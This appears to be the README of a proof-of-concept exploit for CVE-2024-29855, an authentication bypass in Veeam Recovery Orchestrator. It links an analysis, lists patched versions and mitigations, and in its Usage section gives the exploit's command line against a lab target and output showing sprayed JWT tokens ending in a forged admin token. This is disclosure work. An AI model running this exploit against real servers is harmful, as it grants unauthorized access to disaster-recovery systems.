 # CVE-2024-29855
Veeam Recovery Orchestrator Authentication Bypass ([CVE-2024-29855](https://www.veeam.com/kb4585)) by [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [SummoningTeam (@SummoningTeam)](https://x.com/summoningteam)

## Technical Analysis
[A root cause analysis of the vulnerability can be found on my blog
](https://summoning.team/blog/veeam-recovery-Orchestrator-auth-bypass-CVE-2024-29855/
)


![poc](poc.gif)


## Summary

Veeam published a [CVSS 9](https://www.veeam.com/kb4585) advisory for a [authentication bypass vulnerability CVE-2024-29855](https://www.veeam.com/kb4585) affecting [Veeam Recovery Orchestrator](https://www.veeam.com/disaster-recovery-orchestrator.html), Following is my full analysis and exploit for this issue, although the issue is not as severe as it might sound (DO NOT PANIC AT ALL) but i found the mechanics of this vulnerability a bit interesting and decided to publish my detailed analysis and exploit for it.

<p align="center">
  <img src="/poc.jpg" />
</p>

# Vulnerable versions?

According to Veeam [official advisory](https://www.veeam.com/kb4585), The vulnerability discussed was resolved starting in:

Veeam Recovery Orchestrator 7.1.0.230
Veeam Recovery Orchestrator 7.0.0.379

## Usage



```
python CVE-2024-29855.py  --start_time 1718264404 --end_time 1718264652 --username administrator@evilcorp.local --target https://192.168.253.180:9898/

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |
                                                                                    
        (*) Veeam Recovery Orchestrator Authentication Bypass (CVE-2024-29855) 
        
        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam)
        
        (*) Technical details: https://summoning.team/blog/veeam-recovery-Orchestrator-auth-bypass-CVE-2024-29855/
        
        
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(+) Pwned Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.gpvNsv78cZRt6qelKMIzprAQG_Eva6pKyNLLGIrnXkA, Status code: 200
(+) Response: {"user":"administrator@evilcorp.local","siteName":null,"siteRole":"Unknown","isLogged":true,"formats":{"shortTime":"H:i","longTime":"H:i:s","shortDate":"m/d/Y","shortTimeHR":"HH:mm","longTimeHR":"HH:mm:ss","shortDateHR":"MM/dd/yyyy","firstDayOfWeek":"Sunday"},"roles":["SiteSetupOperator"],"siteScopeRoles":[{"id":"00000000-0000-0000-0000-000000000000","name":"All Scopes","roles":[]}],"displayUserName":"EVILCORP\\Administrator","uiTimeout":3600,"dnsName":"WIN-I61UGP29579.evilcorp.local","domainName":"evilcorp.local"}
                                                                        
```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Veeam Advisory
* https://www.veeam.com/kb4585

## Follow Us on Twitter for the latest security research:
*  [SinSinology](https://x.com/SinSinology)
*  [SummoningTeam](https://x.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

